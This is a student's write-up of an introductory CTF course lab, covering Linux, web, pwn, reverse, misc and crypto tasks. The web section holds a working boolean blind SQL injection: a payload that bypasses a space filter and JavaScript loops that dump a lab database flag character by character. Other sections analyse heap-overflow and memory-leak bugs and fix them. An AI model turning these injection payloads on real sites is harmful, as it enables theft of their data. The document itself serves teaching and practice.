



import Asciinema from '@/components/md-comp/AsciinemaWrapper.vue'
import Card from '@/components/md-comp/card.vue'
import {NImage} from 'naive-ui'

# Prerequisite

## Challenge 1 Linux 环境的搭建与简单使用

<Card title="任务" type="task"  >
在实验报告中给出**任意 4 个** shell 命令的用法介绍以及在 Linux 环境下的实操截图；
</Card>
1. `ls`: 列出目录中的文件和子目录。
    - `-l`: 以长格式列出文件和目录的详细信息
    - `-a`: 显示所有文件，包括隐藏文件

import cast1 from './casts/lab0-ls.cast?raw';

<Asciinema cast={cast1} />

2. `cat`: 显示文件内容。
  - `-n`: 显示行号
  - `-b`: 显示非空行的行号


import cast2 from './casts/lab0-p2.cast?raw';

<Asciinema cast={cast2} />

3. `touch file`创建一个文件（虽然真正的用途是Update the access and modification times of each FILE to the current time）,`mkdir dir`创建一个目录

import cast3 from './casts/lab0-p3.cast?raw';

<Asciinema cast={cast3} />

4. `rm`: 删除文件或目录。
  - `-r`: 递归删除目录及其内容
  - `-f`: 强制删除文件，不提示确认

import cast4 from './casts/lab0-p4.cast?raw';

<Asciinema cast={cast4} />

<Card title="任务" type="task">
完成 [SadServers](https://sadservers.com/) 上的题目 ["Saint John": what is writing to this log file?](https://sadservers.com/scenario/saint-john) 给出解答以及通过截图。
</Card>

import imageLab0_1 from './images/lab0-o1.png?url';

<NImage src={imageLab0_1} alt="Saint John" />

> A developer created a testing program that is continuously writing to a log file /var/log/bad.log and filling up disk. You can check for example with `tail -f /var/log/bad.log`.

显然~~资本动了我的log文件~~通过`lsof | grep bad.log`可以看到是一个`badlog.py`进程在写入这个log文件,通过`ps aux | grep badlog.py`可以看到这个进程的PID是576,所以我们直接`kill 576`。


## Challenge 2 基础的 Python 编程

<Card title="任务" type="task">
1. 请阅读和执行如下 Python 程序，在实验报告中并解释其功能:

    ```python
    #!/usr/bin/python3

    data = input("give me your string: ")
    print("length of string:", len(data))

    data_old = data
    data_new = ""
    for d in data:
        if d in 'abcdefghijklmnopqrstuvwxyz':
            data_new += chr(ord(d) - 32)
        elif d in 'ABCDEFGHIJKLMNOPQRSTUVWXYZ':
            data_new += chr(ord(d) + 32)
        else:
            data_new += d

    print("now your string:", data_new)
    ```
</Card>

- 该程序的功能是将输入的字符串中的字母大小写进行转换，并输出**原字符串的长度**和**转换后的字符串**。

```python
for d in data:
    if d in 'abcdefghijklmnopqrstuvwxyz':
        data_new += chr(ord(d) - 32)  # 将小写字母转换为大写字母（ascii码-32）
    elif d in 'ABCDEFGHIJKLMNOPQRSTUVWXYZ':
        data_new += chr(ord(d) + 32)  # 将大写字母转换为小写字母（ascii码+32）
    else:
        data_new += d                 # 其他字符不变
```

<Card title="任务" type="task">

2. 请通过 Python 编程解决[校巴](https://zjusec.com)上 [calculator](https://zjusec.com/challenges/27) 这道编程题（需要内网访问），在实验报告中给出完整代码、成功解决的截图以及正确的 flag。

</Card>

```python
from pwn import *

sh = remote("10.214.160.13", 11002)

for _ in range(7):
    print(sh.recvline().decode())

for __ in range(10):
    arith = sh.recv().decode().strip().split('=')[0]
    ans = eval(arith)
    sh.sendline(str(ans).encode())
    success("Calculate "+arith+'='+str(ans))
    for _ in range(3):
        print(sh.recvline().decode())
sh.interactive()
```

import cast5 from "./casts/lab0-p5.cast?raw"

<Asciinema cast={cast5} />

flag: `AAA{melody_loves_doing_calculus_qq_qun_386796080}`

<center>

</center>

# Web

## Challenge 1

<Card title="任务" type="task">
请访问网址 [http://pumpk1n.com/lab0.php](http://pumpk1n.com/lab0.php)

这个神奇的页面藏着一个 flag，请尝试找到它，并在实验报告中记录你的过程。
</Card>

view source, 注意到

```js
function getflag() {
    fetch('/flag.php?token=b134e5cb029c41cd')
        .then(res => res.text())
        .then(res => alert(res))
}
```

我们直接访问该网址，它说`One more time! 1 / 1337`，重放发现`wrong token`

所以我们~~不能耍小聪明，只能点开连点器~~开始写脚本

```js
const Cookie = "PHPSESSID=rd09cfgm964nmagivo0g5vq6sh"

;(async()=>{
for(let i = 0 ; i < 1379; i ++){
    await fetch("http://pumpk1n.com/lab0.php",{headers:{Cookie}})
    .then(v=>v.text()).then(o=>{
        return /token=([a-z0-9]+)'/.exec(o)[1]
    }).then(async(token)=>{
        const result = await fetch(
            "http://pumpk1n.com/flag.php?token="+token,{headers:{Cookie}})
        .then(v=>v.text())
        console.log("#",i,"token",token,"result",result);
        
    })
}
})();
```

import cast6 from './casts/lab0-p6.cast?raw';

<Asciinema cast={cast6} />

`flag{56297ad00e70449a16700a77bf24b071}`

## Challenge 2

<Card title="任务" type="task">
这里选取一个比较经典的题：[Hack World](https://buuoj.cn/challenges#[CISCN2019%20%E5%8D%8E%E5%8C%97%E8%B5%9B%E5%8C%BA%20Day2%20Web1]Hack%20World)
</Card>

~~sqlmap启动(结果没爆出来)~~

发现部分输入会`SQL Injection Checked.`，首先空格被ban了我们得来一个[No Space Bypass](https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html#no-spaces-bypass),试了一下发现`%0A`可以替换空格绕过

但是`union`疑似也被ban了，所以我们的`1 union select flag from flag`大法失效了

所以只能试试布尔盲注[Exploiting Blind SQLi](https://book.hacktricks.wiki/en/pentesting-web/sql-injection/index.html#exploiting-blind-sqli)

> In this case you cannot see the results of the query or the errors, but you can **distinguished** when the query return a **true** or a **false** response because there are different contents on the page. In this case, you can abuse that behaviour to dump the database char by char

中间省略，总之造了一个payload`(ASCII(SUBSTR((select%0Aflag%0Afrom%0Aflag),1,1))=102)`发现能dump

```js
(async () => {
  for (let i = 0; i < 100; i++) {
    for (let char = 0; char < 256; char++) {
      if (await fetch("http://c3b67b65-dccc-4d8e-a6d1-2275baa54bb5.node5.buuoj.cn:81/index.php", {
        method: "POST",
        headers: {
          "Content-Type": "application/x-www-form-urlencoded"
        },
        body: `id=1%20and%20ASCII(SUBSTR((select%0Aflag%0Afrom%0Aflag),${i},1))=${char}`
      }).then(v => v.text()).then(o => {
        if (/Hello, glzjin wants a girlfriend./.test(o)) {
          return true
        } else {
          return false
        }
      })) {
        console.log("flag[", i, "]:", String.fromCharCode(char))
        break
      }
    }

  }
})();
```

爆了半天发现我们还有《429 Too many requests》


遂做如下修改（因为说了`flag{}`里面是uuid，所以charset可以放很小）：
```js
let flag=[];

const sleep = (ms) => new Promise(resolve => setTimeout(resolve, ms));
const charset = "0123456789abcdef-lag{}"
;(async () => {
  for (let i = 0; i < 100; i++) {
    for (let char in charset) {
      if (await fetch("http://c3b67b65-dccc-4d8e-a6d1-2275baa54bb5.node5.buuoj.cn:81/index.php", {
        method: "POST",
        headers: {
          "Content-Type": "application/x-www-form-urlencoded"
        },
        body: `id=(ASCII(SUBSTR((select%0Aflag%0Afrom%0Aflag),${i},1))=${charset[char].charCodeAt(0)})`
      }).then(v => v.text()).then(o => {
        console.log(i,charset[char],o.length);
        
        if (/Hello, glzjin wants a girlfriend./.test(o)) {
          return true
        } else {
          return false
        }
      })) {
        flag[i]=charset[char]
        console.log("flag[", i, "]:", charset[char])
        console.log("flag:", flag.join(""));
        
        break
      }
      await sleep(100);
    }
  }
})();
```

import cast10 from './casts/lab0-p10.cast?raw';

<Asciinema cast={cast10} />



# Pwn

<Card type="task" title="任务">
参考难度：★★

1. 请阅读附件中的 C 代码 [program.c](https://github.com/team-s2/ctf_summer_courses/raw/master/src/intro/lab0/program.c)，尝试找到代码中所有的***BUG***，并在实验报告中给出描述；
2. 附件中的 [program.elf](https://github.com/team-s2/ctf_summer_courses/raw/master/src/intro/lab0/program.elf) 是上述源代码 Linux 平台上编译的可执行 ELF 程序，请在 Linux 环境下执行该程序，并在与其交互的过程中触发找到的漏洞，这些漏洞可以使得程序崩溃么？
3. 请修复 `program.c` 中发现的漏洞，将新的代码命名为 `nobug_program.c` 并提交；
4. （可选）参考网上[资料](https://www.cnblogs.com/zhuyp1015/p/3901191.html)，学习 valgrind 使用，并使用其去验证 2 过程中的漏洞触发，提交过程截图。
</Card>

## 漏洞

> ```c
>     fread(tmp->data, tmp->size - sizeof(struct hbpkt), 1, stdin);
> ```

```c
size_t fread(void ptr[restrict .size * .n],
                    size_t size, size_t n,
                    FILE *restrict stream);
```

(ref: [fread(3) - Linux manual page](https://www.man7.org/linux/man-pages/man3/fread.3.html))

这里有一个**整型溢出**。fread接受的第二个参数是无符号类型，如果`tmp->size`小于`sizeof(struct hbpkt)`，那么`tmp->size - sizeof(struct hbpkt)`会下溢，导致`fread`读取的字节数为一个非常大的数。

> ```c
> int main()
> {
>     int err;
>     while (true)
>     {
>         struct hbpkt *p = get_heart_beat();
>         if (!p)
>             continue;
> 
>         err = reply_heart_beat(p);
> 
>         if (err)
>         {
>             free(p);
>             continue;
>         }
>     }
> }
> ```

这是一个**内存泄漏**，每次`reply_heart_beat`返回错误时，都会调用`free(p)`释放内存，但是如果没有错误发生，`p`就不会被释放，导致内存泄漏，实际应该无论返回`err`是否为空都应该`free`。

> ```c
>     if (pkt->size)
>     {
>         written = fwrite(pkt, 1, pkt->size, stdout);
>         fflush(stdout);
>     }
> ```

这里的`fwrite`函数调用，如果`pkt->size>sizeof(pkt)`，就会发生**溢出读** ~~（这不就是当年的heartbleed嘛）~~

## 崩溃


*请在 Linux 环境下执行该程序，并在与其交互的过程中触发找到的漏洞，这些漏洞* **并不可以** *使得程序崩溃*


## 修复

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <stdint.h>
#include <stdbool.h>

struct hbpkt
{
    uint32_t size;
    uint32_t timestamp;
    uint32_t index;
    uint32_t cred;
    char data[];
};

struct hbpkt *get_heart_beat()
{
    uint8_t buffer[0x1000] = {0};
    fread(buffer, sizeof(struct hbpkt), 1, stdin);

    struct hbpkt *tmp = (struct hbpkt *)buffer;

    if (tmp->size > 0x1000 || tmp->size < sizeof(struct hbpkt))
        // 如果size小于sizeof(struct hbpkt)则报错
        return NULL;

    fread(tmp->data, tmp->size - sizeof(struct hbpkt), 1, stdin);

    uint32_t real_size = sizeof(struct hbpkt) + strlen(tmp->data);

    struct hbpkt *res = malloc(real_size);

    if (!res)
        return NULL;

    memcpy(res, buffer, real_size);

    res->size = real_size;// 强制重写size，防止溢出读
    res->index += 1;

    return res;
}

int reply_heart_beat(struct hbpkt *pkt)
{
    int err = 0;
    int written;

    if (pkt->size)
    {
        written = fwrite(pkt, 1, pkt->size, stdout);
        fflush(stdout);
    }

    if (written == 0 || written != pkt->size)
    {
        err = -1;
    }

    return err;
}

int main()
{
    while (true)
    {
        struct hbpkt *p = get_heart_beat();
        if (!p)
            continue;

        int err = reply_heart_beat(p);

        free(p); // 修复内存泄漏
        if (err)
        {
            continue; 
        }
    }
}
```

## Valgrind

*使用valgrind验证漏洞触发*

```python
from pwn import *

sh = process(["valgrind","./program.elf"])

sh.sendline(flat([
    p64(0x1),
    p64(0x1),
    p64(0x1),
    p64(0x1),
    p64(0x1),
    b'A'*50
]))

sh.interactive()
```

import castPwn1 from './casts/lab0-pwn1.cast?raw';

<Asciinema cast={castPwn1} />


# Reverse

<Card title="任务" type="task">

参考难度：★★

[题目下载链接](https://github.com/team-s2/ctf_summer_courses/raw/master/src/intro/lab0/crackme)

1. 尝试通过反汇编/反编译工具逆向该可执行 ELF 程序，并成功通过输入获得 `Access Granted` 的提示。请在报告中给出逆向步骤；
2. （可选）思考逆向该 crackme 的过程中，有无什么可能的取巧、自动的方式；

</Card>

IDA启动

```c
bool __cdecl verify(char *passwd)
{
  int v2; // ecx
  int v3; // r8d
  int v4; // r9d
  char v5; // [rsp+0h] [rbp-F0h]
  int i; // [rsp+18h] [rbp-D8h]
  char *table[14]; // [rsp+20h] [rbp-D0h]
  char tmp[64]; // [rsp+90h] [rbp-60h] BYREF
  unsigned __int64 v9; // [rsp+D8h] [rbp-18h]

  v9 = __readfsqword(0x28u);
  table[0] =  "1040";
  table[1] =  "1040";
  table[2] =  "1040";
  table[3] =  "1968";
  table[4] =  "1152";
  table[5] =  "1680";
  table[6] =  "1312";
  table[7] =  "1616";
  table[8] =  "1888";
  table[9] =  "1616";
  table[10] = "1824";
  table[11] = "1840";
  table[12] = "1616";
  table[13] = "2000";
  if ( j_strlen_ifunc(passwd) != 14 )
    return 1;
  memset(tmp, 0, sizeof(tmp));
  for ( i = 0; i < (unsigned __int64)j_strlen_ifunc(passwd); ++i )
  {
    sprintf((unsigned int)tmp, (unsigned int)"%d", 16 * passwd[i], v2, v3, v4, v5);
    if ( (unsigned int)j_strcmp_ifunc(tmp, table[i]) )
      return 1;
  }
  return 0;
}
```

瞪眼法得知：用户输入的内容每一位的ascii码乘以16后转为字符串与`table`中的对应元素进行比较

```js
const table = [
    "1040",
    "1040",
    "1040",
    "1968",
    "1152",
    "1680",
    "1312",
    "1616",
    "1888",
    "1616",
    "1824",
    "1840",
    "1616",
    "2000"
]
table.map((v)=>String.fromCharCode(v/16)).join("")
```

`AAA{HiReverse}`

import cast8 from './casts/lab0-p8.cast?raw';

<Asciinema cast={cast8} />

# Misc

## Challenge 1

<Card title="任务" type="task">

参考难度：★

这里有一串被编码过的神秘的字符串，请找出有意义的原字符串（格式为 `AAA{...}`）：

```text
;cR!f<`MjL9eg<R<bl5:;D9go<,6#?<CUXo<)lXK;cPZ";D9h.=);&:<bu;I9l*Er<A8VO<GYQ"<blqZ<%p0t<bbf5<GY,q;cH@l9kl@B:f0A=
```

请在实验报告中给出你具体的解密**过程**。

</Card>

`AAA{wELc0m3_t0_Ctf_5umMEr_c0UrsE_2025}`

都说了要用Cyberchef那我肯定得欣然接受啊.jpg

- `From_Base85('!-u',true,'z')`
- `From_Base64('A-Za-z0-9+/=',true,false)`
- `From_Base32('A-Z2-7=',false)`

查看[Recipe](https://lab.tonycrane.cc/CyberChef/#recipe=From_Base85('!-u',true,'z')From_Base64('A-Za-z0-9%2B/%3D',true,false)From_Base32('A-Z2-7%3D',false)&input=O2NSIWY8YE1qTDllZzxSPGJsNTo7RDlnbzwsNiM/PENVWG88KWxYSztjUFoiO0Q5aC49KTsmOjxidTtJOWwqRXI8QThWTzxHWVEiPGJscVo8JXAwdDxiYmY1PEdZLHE7Y0hAbDlrbEBCOmYwQT0)

## Challenge 2


<Card title="任务" type="task">
参考难度：★★★

下面这张图是 AAA 的 logo。真的……只是一个 logo 吗？其实这张图片中隐藏了一个 flag（格式 `AAA{...}`），请你找出来。

{/* 
// import ImageLab0_2 from './images/lab0-misc_challenge2.png?url';

// <NImage src={ImageLab0_2} alt="Misc Challenge 2" />
 */}


请在实验报告中给出你的解题过程，包括你最终得到的 flag 内容。

</Card>

{/*  */}

import imageLab0_3 from './images/lab0-o2.png?url';

<NImage src={imageLab0_3} alt="Stegsolve Result" />


- 第一部分：`AAA{gr3@t_J08!_1et'5_`使用~~瞪眼法仔细观察图片~~Stegsolve惊喜地发现把数据写到RGB三个通道的plane 0上了
- 第二部分是`zsteg`说的

```plain
[?] 19 bytes of extra data after image end (IEND), offset = 0x1dc7a
extradata:0         .. text: "P1@y_m1SC_TOG3Th3R}"
```

拼起来是`AAA{gr3@t_J08!_1et'5_P1@y_m1SC_TOG3Th3R}`

# Crypto

## Challenge 1

<Card title="任务" type="task" >
参考难度：★★★

真宵：成步堂君，刚刚狩魔冥检察官给你的纸条上写了什么啊？

成步堂：好像是糸锯警官在追踪一个美国嫌犯时抢过来的，不过上面只画了些奇怪的符号……


真宵：这是什么东西呀？

成步堂：我也不是很清楚……

矢张（突然出现）：这个感觉和英国大侦探福尔摩斯破过的某起案件很像啊……

成步堂：矢张！你怎么突然冒出来了……对了，你说的案件是？

矢张：哦我想起来了，叫“跳舞的小人”。那个案件也出现了非常奇怪的符号。

真宵：跳舞的小人？

成步堂：我好像也有点印象，不如我们就试试看破解这张纸条吧。

成步堂：我记得破解暗号的关键是……字母出现的频率。

真宵：字母出现的频率？

成步堂：比如理论上字母 E 出现的概率是最高的，然后 T 和 A 之类的字符出现的概率也很高。

真宵：哇成步堂君好厉害。

矢张：当然，还有个最重要的东西。

真宵：哎？是什么？

矢张：就是……英语词典啦！

成步堂：好吧，事不宜迟，我们一起来破解暗号吧。

要求：破解纸条上的信息，给出最后的破解结果，对于本问题，可以不用写破解的过程，毕竟福尔摩斯曾经说过，“将中间的推理步骤统统去掉，能够达到惊人的效果”，不过还是很希望能够看到同学们是如何逐步破解问题，得到最后的结果的，这也是密码学题目，或者说 CTF 题目的真正乐趣所在。

</Card>

<Card type="prompt" title="LLM: Deepseek R1">

Prompt:

> 现在有一张1344x832的图片，该图片是由一系列类似福尔摩斯“跳舞的小人”的符号规整排列组成的，每个符号均是正方形，按照21x13排列。
> 
> 需要你使用Python的OpenCV库完成以下任务：读取该图片，提取图片中每个符号，输出符号的哈希

---

以下是使用Python和OpenCV实现提取图像中每个符号并计算哈希值的完整代码：

```python
import cv2
import numpy as np

def ahash(image, hash_size=8):
    """计算平均哈希值"""
    # 缩小图像到8x8
    resized = cv2.resize(image, (hash_size, hash_size), interpolation=cv2.INTER_AREA)
    # 计算像素平均值
    avg = np.mean(resized)
    # 生成二进制哈希（大于平均值为1，否则为0）
    hash_val = (resized > avg).flatten()
    # 将二进制哈希转换为十六进制字符串
    return ''.join(f'{x:0{4}x}' for x in np.packbits(hash_val))

# 读取图像
image = cv2.imread('symbols.png', cv2.IMREAD_GRAYSCALE)
if image is None:
    raise FileNotFoundError("无法读取图像，请检查文件路径")

# 图像尺寸和排列参数
total_width, total_height = image.shape[1], image.shape[0]
cols, rows = 21, 13
symbol_width = total_width // cols
symbol_height = total_height // rows

# 存储所有符号的哈希值
hashes = []

# 遍历每个网格位置
for r in range(rows):
    for c in range(cols):
        # 计算当前符号的边界
        start_x = c * symbol_width
        end_x = (c + 1) * symbol_width
        start_y = r * symbol_height
        end_y = (r + 1) * symbol_height
        
        # 提取符号区域
        symbol = image[start_y:end_y, start_x:end_x]
        
        # 计算哈希值并保存
        symbol_hash = ahash(symbol)
        hashes.append(symbol_hash)

# 打印结果（每行21个哈希值）
for i in range(0, len(hashes), cols):
    print(' '.join(hashes[i:i+cols]))
```

**代码说明：**
1. **ahash函数**：
   - 将图像缩小到8x8像素
   - 计算像素平均值
   - 生成二进制哈希（像素值大于平均值为1，否则为0）
   - 将64位二进制哈希转换为16字符的十六进制字符串

2. **图像处理流程**：
   - 读取图像并转换为灰度图
   - 根据21x13的网格计算每个符号的尺寸
   - 遍历所有网格位置提取每个符号区域
   - 对每个符号计算平均哈希
   - 按行打印哈希值（每行21个）

**使用说明：**
1. 确保已安装OpenCV：`pip install opencv-python numpy`
2. 将代码中的`'symbols.png'`替换为实际图像路径
3. 运行后将输出21列×13行的哈希值矩阵

**输出示例：**
```
0000 0000 7e7e 7e7e ... (共21个)
7e7e 0000 0000 7e7e ... (共21个)
... (共13行)
```

这种哈希方法能有效识别相同/相似的符号，即使存在轻微的颜色变化或噪点也能保持鲁棒性。每个哈希值代表一个符号的视觉特征，相同符号的哈希值将相同或相似。
</Card>

稍微改巴改巴，把空格的支持也给整上：

```python
import cv2
import numpy as np

def ahash(image, hash_size=64):
    """计算平均哈希值"""
    # 缩小图像到16x16
    resized = cv2.resize(image, (hash_size, hash_size), interpolation=cv2.INTER_AREA)
    # 计算像素平均值
    avg = np.mean(resized)
    # 生成二进制哈希（大于平均值为1，否则为0）
    hash_val = (resized > avg).flatten()
    # 将二进制哈希转换为十六进制字符串
    return ''.join(f'{x:0{4}x}' for x in np.packbits(hash_val))

def compare_hashes(hash1, hash2):
    """比较两个哈希值的相似度"""
    return sum(c1 == c2 for c1, c2 in zip(hash1, hash2)) / len(hash1)

# 读取图像
image = cv2.imread('crypto_challenge1.png', cv2.IMREAD_GRAYSCALE)
if image is None:
    raise FileNotFoundError("无法读取图像，请检查文件路径")

# 图像尺寸和排列参数
total_width, total_height = image.shape[1], image.shape[0]
cols, rows = 21, 13
symbol_width = total_width // cols
symbol_height = total_height // rows

# 存储所有符号的哈希值
hashes = []

unique_hashes = []

# 遍历每个网格位置
for r in range(rows):
    for c in range(cols):
        # 计算当前符号的边界
        start_x = c * symbol_width
        end_x = (c + 1) * symbol_width
        start_y = r * symbol_height
        end_y = (r + 1) * symbol_height
        
        # 提取符号区域
        symbol = image[start_y:end_y, start_x:end_x]
        
        # 计算哈希值并保存
        symbol_hash = ahash(symbol)
        # for x in unique_hashes:
        #     print(r,c,compare_hashes(x, symbol_hash))
        
        flag = 0
        for x in unique_hashes:
            if compare_hashes(x, symbol_hash) > 0.95:
                hashes.append(unique_hashes.index(x))
                if x!=symbol_hash:
                    hashes.append(-1)
                flag=1
                break

        if flag == 0:
            hashes.append(len(unique_hashes))
            # 添加到唯一哈希列表
            unique_hashes.append(symbol_hash)
        
        

# 打印结果（每行21个哈希值）
print(''.join([chr(65+x) for x in hashes]))

```

输出：

```plain
ABCDEFA@GAFHC@IDJJ@HKKDLG@FGKG@MJGHNG@JOKG@FDPAB@AFG@HQHCRBCGR@IHKGFBONG@CGHK@AFG@MBJDSG@NAHADBC@IFGKG@AFG@MKBTGNNDBCHJ@HNNHNNDC@KGGNG@FDKGR@IDJJ@GJDP@DCHAG@FDPABP@BKKBI@NFG@IDJJ@EB@AB@AFG@IHKGFBONG@HCR@QGSBP@G@AFG@TDKNA@MGKNBC@AB@RDNSBLGK@FDN@SBKMNG@IDAF@H@NAKBCE@HJDQD@AFGNG@MBJDSG@BTTDSGKN@HQNBJOAGJUSHC@CBA@HKKGNA@FGK@VVVV
```

扔到[quipquip](https://quipqiup.com/)上

import imageLab0_4 from './images/lab0-o5.png?url';

<NImage src={imageLab0_4} alt="Quipquip Result" />

得到：

<code style="word-warp:break-all;">TONIGHT ETHAN WILL ARRIVE HERE PLEASE LURE HIM TO THE ABANDONED WAREHOUSE NEAR THE POLICE STATION WHERE THE PROFESSIONAL ASSASSIN REESE HIRED WILL ELIMINATE HIM TOMORROW SHE WILL GO TO THE WAREHOUSE AND BECOME THE FIRST PERSON TO DISCOVER HIS CORPSE WITH A STRONG ALIBI THESE POLICE OFFICERS ABSOLUTELY CAN NOT ARREST HER</code>

（小修了一些空格）


## Challenge 2

<Card title="任务" type="task">
参考难度：★

现如今的加密算法多数都是基于数学运算实现的，而 RSA 算法作为经久不衰的加密算法，其数学原理非常简单，不过破解的难度却非常大，网上关于 RSA 的资料非常多，请自行查阅资料，了解各个参数的意义，并编写代码（不限制语言）解出明文 c 对应的密文 m 的结果。

```python
p = 0x848cc7edca3d2feef44961881e358cbe924df5bc0f1e7178089ad6dc23fa1eec7b0f1a8c6932b870dd53faf35b22f35c8a7a0d130f69e53a91d0330c0af2c5ab
q = 0xa0ac7bcd3b1e826fdbd1ee907e592c163dea4a1a94eb03fd4d3ce58c2362100ec20d96ad858f1a21e8c38e1978d27cd3ab833ee344d8618065c003d8ffd0b1cb
n = p * q
e = 0x10001
m = int(input()) # the message before encryption
c = pow(m, e, n)
assert c == 0x39f68bd43d1433e4fcbbe8fc0063661c97639324d63e67dedb6f4ed4501268571f128858b2f97ee7ce0407f24320a922787adf4d0233514934bbd7e81e4b4d07b423949c85ae3cc172ea5bcded917b5f67f18c2c6cd1b2dd98d7db941697ececdfc90507893579081f7e3d5ddeb9145a715abc20c4a938d32131013966bea539
```

其中 m 是一个具有意义的字符串，你可以安装 Python 的 pycryptodome 库并进行如下操作：

```python
from Crypto.Util.number import long_to_bytes

print(long_to_bytes(m))
```

如果不想安装此库，也可以直接使用 Python 的内置方法实现 int 转 bytes:

```python
print(int.to_bytes(m, (m.bit_length() + 7) // 8, 'big'))
```
</Card>

Solve m:

```python
from Crypto.Util.number import inverse,long_to_bytes
p = 0x848cc7edca3d2feef44961881e358cbe924df5bc0f1e7178089ad6dc23fa1eec7b0f1a8c6932b870dd53faf35b22f35c8a7a0d130f69e53a91d0330c0af2c5ab
q = 0xa0ac7bcd3b1e826fdbd1ee907e592c163dea4a1a94eb03fd4d3ce58c2362100ec20d96ad858f1a21e8c38e1978d27cd3ab833ee344d8618065c003d8ffd0b1cb
n = p * q
e = 0x10001
phi = (p - 1) * (q - 1)
d = inverse(e, phi)
m = pow(0x39f68bd43d1433e4fcbbe8fc0063661c97639324d63e67dedb6f4ed4501268571f128858b2f97ee7ce0407f24320a922787adf4d0233514934bbd7e81e4b4d07b423949c85ae3cc172ea5bcded917b5f67f18c2c6cd1b2dd98d7db941697ececdfc90507893579081f7e3d5ddeb9145a715abc20c4a938d32131013966bea539, d, n)
print(long_to_bytes(m))
```

Result : `AAA{Ace_Attorney_is_very_fun_Phoenix_Wright&Miles_Edgeworth}`